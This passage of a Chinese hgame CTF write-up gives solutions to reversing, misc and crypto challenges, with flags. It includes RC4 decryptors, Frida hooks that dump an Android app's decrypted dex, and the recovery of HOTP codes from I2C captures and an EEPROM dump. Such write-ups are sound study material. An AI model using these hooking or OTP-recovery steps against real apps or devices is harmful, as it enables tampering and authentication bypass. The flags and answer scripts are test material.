        j = (S[i] + j + ord(key[i % length])) % 256
        S[i], S[j] = S[j], S[i]
    return S

def rc4_1(data, key, length, S):
    i = 0
    j = 0
    result = []
    
    for idx in range(length):
        i = (i + 1) % 256
        j = (j + S[i]) % 256
        S[i], S[j] = S[j], S[i]
        t = (S[i] + S[j]) % 256
        result.append(data[idx] ^ S[t])
    
    return bytes(result)

def rc4_2(data, key, length, S):
    i = 0
    j = 0
    result = []
    
    for idx in range(length):
        i = (i + 1) % 256
        j = (j + S[i]) % 256
        S[i], S[j] = S[j], S[i]
        t = (S[i] + S[j]) % 256
        result.append((data[idx] + S[t])&0xff)
    
    return bytes(result)

def main():
    # 初始密钥 "yekyek"
    key1 = "yekyek"
    
    # Buf2 数据
    passwd = bytes([0xcd,0x8f,0x25,0x3d,0xe1,0x51,0x4a])
    
    # v5 加密后的flag数据
    encrypted_flag = bytes([
        248, 213, 98, 207, 67, 186, 194, 35, 21, 74, 81, 16, 39, 16, 177, 
        207, 196, 9, 254, 227, 159, 73, 135, 234, 89, 194, 7, 59, 169, 17, 
        193, 188, 253, 75, 87, 196, 126, 208, 170, 10
    ])

    # 第一次验证
    S1 = init_rc4(key1, 6)
    key2=rc4_1(passwd,key1,7,S1)

    # 第二次解密flag
    S2 = init_rc4(key2.decode(), 7)
    decrypted = rc4_2(encrypted_flag, encrypted_flag, 40, S2)
    print(f"Decrypted flag: {decrypted}")

if __name__ == "__main__":
    main()
```

hgame{Y0u'r3\_re4l1y\_g3t\_0Ut\_of\_th3\_upX!}

### 尊嘟假嘟

对dex进行解密加载



动态调用copyDexFromAssets



hook出文件位置

```
Java.perform(function() {
    // 确保 File 类正确加载
    var File = Java.use("java.io.File");

    // 获取 DexCall 类
    var DexCall = Java.use("com.nobody.zunjia.DexCall");

    // Hook callDexMethod 方法
    DexCall.callDexMethod.implementation = function(context, dexFileName, className, methodName, input) {
        // 获取 dexDir 的路径信息
        var dexDir = File.$new(context.getCacheDir(), "dex");
        console.log("dexDir path: " + dexDir.getAbsolutePath());

        // 打印 dexFileName 和其他参数信息
        console.log("dexFileName: " + dexFileName);
        console.log("className: " + className);
        console.log("methodName: " + methodName);

        // 调用原始的 callDexMethod 方法
        var result = this.callDexMethod(context, dexFileName, className, methodName, input);

        // 返回结果
        return result;
    };
});
```



让ai写个另存文件，报错程序终止，也算是打上断点了

```
Java.perform(function() {
    // 获取 File 类
    var File = Java.use("java.io.File");

    // 获取 DexCall 类
    var DexCall = Java.use("com.nobody.zunjia.DexCall");

    // Hook copyDexFromAssets 方法
    DexCall.copyDexFromAssets.implementation = function(context, dexFileName, dexDir) {
        console.log("[*] copyDexFromAssets called with dexFileName: " + dexFileName);

        // 调用原始方法获取 dex 文件
        var dexFile = this.copyDexFromAssets(context, dexFileName, dexDir);

        // 获取 dex 文件的路径
        var dexFilePath = dexFile.getAbsolutePath();
        console.log("[*] dex file saved to: " + dexFilePath);

        // 获取目标路径以保存 dex 文件（例如 `/data/data/com.nobody.zunjia/files/dex_copy`）
        var savePath = "/data/user/0/com.nobody.zunjia/cache/dex/dex_copy";
        var targetFile = File.$new(savePath);

        // 使用 Java IO API 来拷贝文件
        var inputStream = dexFile.$new(dexFilePath).getInputStream();
        var outputStream = targetFile.getOutputStream();

        var buffer = Java.array('byte', [1024]);
        var bytesRead;

        while ((bytesRead = inputStream.read(buffer)) !== -1) {
            outputStream.write(buffer, 0, bytesRead);
        }

        // 关闭流
        inputStream.close();
        outputStream.close();

        console.log("[*] dex file copied to: " + savePath);

        // 返回 dex 文件
        return dexFile;
    };
});
```

传出文件

```
adb pull /data/user/0/com.nobody.zunjia/cache/dex/zunjia.dex ./
```

逆一下解密后dex，一眼换表base64



rc4





提取enc

```
from idaapi import*
for i in range(43):
    print(hex(get_byte(0x3950+i)),end=",")
#0x7a,0xc7,0xc7,0x94,0x51,0x82,0xf5,0x99,0xc,0x30,0xc8,0xcd,0x97,0xfe,0x3d,0xd2,0xae,0xe,0xba,0x83,0x59,0x87,0xbb,0xc6,0x35,0xe1,0x8c,0x59,0xef,0xad,0xfa,0x94,0x74,0xd3,0x42,0x27,0x98,0x77,0x54,0x3b,0x46,0x5e,0x95
```

key是我们点击生成的十二个`0.o`或`o.0`随机组合的36字节字符串，再进行dex中的encode操作







最后发现尼玛dex中encode换表还有一层异或运算



```
import base64
from itertools import product

def rc4(key, data):
    """RC4算法实现"""
    S = list(range(256))
    j = 0
    # 密钥调度算法（KSA）
    for i in range(256):
        j = (j + S[i] + key[i % len(key)]) % 256
        S[i], S[j] = S[j], S[i]
    # 伪随机生成算法（PRGA）
    i = j = 0
    result = bytearray()
    for byte in data:
        i = (i + 1) % 256
        j = (j + S[i]) % 256
        S[i], S[j] = S[j], S[i]
        k = S[(S[i] + S[j]) % 256]
        result.append(byte ^ k &0xff)
    return bytes(result)


# 定义标准 Base64 字符表
standard_base64 = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/="

# 定义自定义 Base64 字符表（换表）
custom_base64 = "3GHIJKLMNOPQRSTUb=cdefghijklmnopWXYZ/12+406789VaqrstuvwxyzABCDEF5"

# 构建换表字典
encode_dict = {standard_base64[i]: custom_base64[i] for i in range(len(standard_base64))}

# 简化的加密函数
def custom_base64_encode(data):
    result = []
    # 遍历字符串中的每个字符
    for i in range(len(data)):
        # 将字符转换为 ASCII 值并与索引 i 进行异或
        result.append(chr(ord(data[i]) ^ i))
    # 将结果列表转回字符串
    data = ''.join(result)
    base64_encoded = base64.b64encode(data.encode('utf-8')).decode('utf-8')
    return ''.join(encode_dict.get(c, c) for c in base64_encoded)


# 密文数据
encrypted_data = bytes([
    0x7a, 0xc7, 0xc7, 0x94, 0x51, 0x82, 0xf5, 0x99, 0x0c, 0x30, 0xc8, 0xcd,
    0x97, 0xfe, 0x3d, 0xd2, 0xae, 0x0e, 0xba, 0x83, 0x59, 0x87, 0xbb, 0xc6,
    0x35, 0xe1, 0x8c, 0x59, 0xef, 0xad, 0xfa, 0x94, 0x74, 0xd3, 0x42, 0x27,
    0x98, 0x77, 0x54, 0x3b, 0x46, 0x5e, 0x95
])

# 生成所有可能的密码组合
segments = ['o.0', '0.o']

for bits in product([0, 1], repeat=12):
    # 构造密码
    password = ''.join([segments[b] for b in bits])

    # 转换到标准Base64
    key=custom_base64_encode(password).encode()
    # 使用密钥解密
    decrypted = rc4(key, encrypted_data)
    if b'hgame' in decrypted:
        print(decrypted)
```

# Misc

### Hakuya Want A Girl Friend

正序zip



倒序png



zip有密码，png改宽高拿密码


a和g倒了

hgame{h4kyu4\_w4nt\_gir1f3nd\_+q\_931290928}

### Computer cleaner

hgame{y0u\_



\_c0mput3r!}



访问攻击ip：121.41.34.25

hav3\_cleaned\_th3



hgame{y0u\_hav3\_cleaned\_th3\_c0mput3r!}

### Level 314 线性走廊中的双生实体

直接改pt中`improved_model/code/__torch__.py`源码flag输出判断为永真



```
import torch

# 加载已优化的 PyTorch 模型
entity = torch.jit.load('entity.pt')

# 创建一个均值为 0.31415 的张量
input_tensor = torch.full((10, ), 0.5)

# 将张量输入模型
output = entity(input_tensor)
#Hidden: flag{s0_th1s_1s_r3al_s3cr3t}
```

### Two wires

关于Wire部分函数可以找到源码

[ArduinoCore-avr/libraries/Wire/src/Wire.cpp at master · arduino/ArduinoCore-avr](https://github.com/arduino/ArduinoCore-avr/blob/master/libraries/Wire/src/Wire.cpp)

sr文件需要用sigrok工具查看，I2C解码



loop

```
void loop() {
    static uint8_t state; // loc_13D
    static uint8_t flag;  // loc_12B

    switch (state) {
        case 0:
            wdt_reset();  // 看门狗复位
            state = 0;
            break;
        case 1:
            state = 5;    // 状态转移至5
            break;
        case 2:
            // 从多个位置加载数据到指定内存区域
            memcpy(&loc_1E2 + 1, &loc_12D, 7); // 假设拷贝7字节数据
            state = 0;
            break;
        case 3:
            // 从1:0x2D拷贝0xA字节到1:0xEB
            memcpy((void*)0x1EB, (const void*)0x12D, 10);
            state = 0;
            break;
        case 4:
            // 从1:0x2D拷贝0xA字节到1:0xF5
            memcpy((void*)0x1F5, (const void*)0x12D, 10);
            state = 0;
            break;
        case 5:
            regen_otp();              // 生成新OTP
            EepromData::serialize();  // 序列化到EEPROM
            state = 0;
            break;
        default:
            flag = 1; // 设置错误标志
            break;
    }

    if (flag) {
        // LED闪烁循环（例如错误指示）
        while (1) {
            digitalWrite(13, LOW);  // 假设引脚13对应0xD
            delay(500);             // 自定义延时
            digitalWrite(13, HIGH);
            delay(500);
        }
    }
}
```

regen\_otp用于生成HOTP，模0x000f4240，即%1000000可以确定是六位HOTP



i2cOnReceive，用于接收上位机指令

```
void i2cOnReceive(int length) {
    // 检查当前状态是否为0（空闲）
    if (i2cState != 0) {
        errorFlag = 1;  // 设置错误标志
        return;
    }

    // 检查数据长度是否足够（至少17字节）
    if (length < 0x11) {
        return;
    }

    // 读取17字节数据到缓冲区
    uint8_t *buffer = (uint8_t*)0x012C; // 缓冲区起始地址
    for (int i = 0; i < 17; i++) {
        buffer[i] = TwoWire::read();    // 从I2C读取数据
    }

    // 状态机转换（根据当前命令设置新状态）
    switch (currentCommand) {
        case 1:  // 命令1: 切换到状态3
            i2cState = 3;
            break;
        case 2:  // 命令2: 切换到状态4
            i2cState = 4;
            break;
        case 3:  // 命令3: 切换到状态5
            i2cState = 5;
            break;
        default: // 默认处理（命令无效或0）
            if (currentCommand < 1) {   // 命令小于1: 切换到状态2
                i2cState = 2;
            }
            break;
    }
}
```

i2cOnRequest，用于发送信息，包含HOPT和counter

```
undefined4 i2cOnRequest(void)

{
  R1 = 0;
  if (next_action != '\0') {
    R25R24 = CONCAT11(R25R24._1_1_,1);
    illegal_state = 1;
    return CONCAT22(R25R24,R23R22);
  }
  TwoWire::write((TwoWire *)&Wire,&msg_send,0xd);
  R25R24 = CONCAT11(R25R24._1_1_,1);
  next_action = 1;
  return CONCAT22(R25R24,R23R22);
}
```

内存及逻辑分析结果（利用ghidra）

```
0x012B					illegal_state		错误状态标志
------------------------------------------
0x013D					next_action			控制变量，根据接收数据的首字节（命令字）更新状态（2-5）。
-------------	action	-----------------------
0	重置
1	set next_action 5;	
2	[0x012d-0x0134]=>[0x01e3-0x01ea](8 byte)	设置Counter
3	[0x012d-0x0134]=>[0x01EB-0x01F4](10 byte)	设置secret[:10]
4	[0x012d-0x0134]=>[0x01F5-0x01FE](10 byte)	设置secret[10:]
5	regen_otp(); 生成新OTP
    EepromData::serialize()；序列化存储到EEPROM
------------------------------------------
0x012C					msg_recv +2 --> next_action	{1->3  2->4  3->5}
0x012D		*								I2C数据接收缓冲区，每次接收17字节，首字节用于状态机控制。
         	*			next_action	=3	<--	01 6B 69 4F 7E 03 54 F6 C6 6A B5 00 00 00 00 00 00	secret[:10]
          17byte		next_action	=2	<--	00 01 00 00 00 93 7E CD 0D 00 00 00 00 00 00 00 00	设置Counter
         	*			next_action	=4	<--	02 1A 04 02 1B 1C 6D 7D 45 58 02 00 00 00 00 00 00	secret[10:]
            *			next_action	=5	<--	03 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00	生成新OTP
0x013C					end.
------------------------------------------
0x011E					msg_send			00 
0x011F		*			HOTP				26 55 04 00
            *
         13byte			
            *			Counter				01 00 00 00 93 7e cd 0d
0x012a	
------------------------------------------
0x0123
            *
         8byte			last Counter				
            *	
0x012a
------------------------------------------
0x01E3					state
            *
         8byte			Counter				
            *		
0x01EA					end.
-----------------------------------------
0x01EB					
            *
            *			secret
         20byte
         	*
0x01FE	 				end.
--------------------------------------------
0x011F 					HOTP
0x0120
0x0121
0x0122					end.
----------------eeprom.bin----------------------
BE BA FE CA 													固定值		
92 05 00 00 17 CD 92 3A 										Counter	
32 1C 31 D4 94 54 85 42 44 DE 86 CC 4A B6 DD F4 35 42 90 52		secret
            from [0x01E3-0x1FE]
```

recv数据，更新secret和counter指令

> secret:6B 69 4F 7E 03 54 F6 C6 6A B5 1A 04 02 1B 1C 6D 7D 45 58 02
>
> counter:01 00 00 00 93 7E CD 0D



send数据



分析仪I2C解析send数据002655040001000000937ecd0d，包含HOTP验证数据26550400和计数信息01000000937ecd0d，HOTP转换成十进制为283942，counter转十进制为994590262544039937。  
可以确定X1为283942

利用recv数据，计算X2(counter+9)

Y1Y2为假设未重设之前的secret和counter，仅与eeprom.bin有关，与sr文件无关

secret和counter储存在eeprom.bin中，BE BA FE CA为固定头，92 05 00 00 17 CD 92 3A（4220661299467519378)为当前counter，32 1C 31 D4 94 54 85 42 44 DE 86 CC 4A B6 DD F4 35 42 90 52为20字节密钥

exp

```
import pyotp

#verify ,X1=283942
hotp = pyotp.HOTP('NNUU67QDKT3MM2VVDICAEGY4NV6UKWAC')
counter =  0x0dcd7e9300000001
hotp_test=hotp.at(counter)
print(hotp_test)

#X2
hotp10=hotp.at(counter+9)

#Y1Y2,eeprom中提取的secret和counter
counter=0x3a92cd1700000592
hotp = pyotp.HOTP('GIODDVEUKSCUERG6Q3GEVNW56Q2UFECS')

hotp32=hotp.at(counter+32)
hotp64=hotp.at(counter+64)

flag="hgame{"+"283942_"+hotp10+"_"+hotp32+"_"+hotp64+"}"
print(flag)
```

# Crypto

### sieve

deepseek一把梭

```
from sage.all import *
from Crypto.Util.number import long_to_bytes
print(111)
# 计算正确的k值
e = 65537
k = (e ^ 2) // 6  # 注意这里应该是e XOR 2，结果为65539，再除以6得到10923

# 计算欧拉函数和
sum_phi = sum(euler_phi(i) for i in range(1, k + 1))

# 计算质数数量
primes_count = len(prime_range(2, k + 1))

trick_k = sum_phi + primes_count

# 生成质数p
shifted = trick_k << 128
p = next_prime(shifted)
n = p ** 2

# 计算私钥d
phi = p * (p - 1)
d = inverse_mod(e, phi)

# 解密密文
enc = 2449294097474714136530140099784592732766444481665278038069484466665506153967851063209402336025065476172617376546
m = pow(enc, d, n)

# 转换为flag
flag = long_to_bytes(int(m))
print(flag.decode())
```

时间有点久

hgame{sieve\_is\_n0t\_that\_HArd}
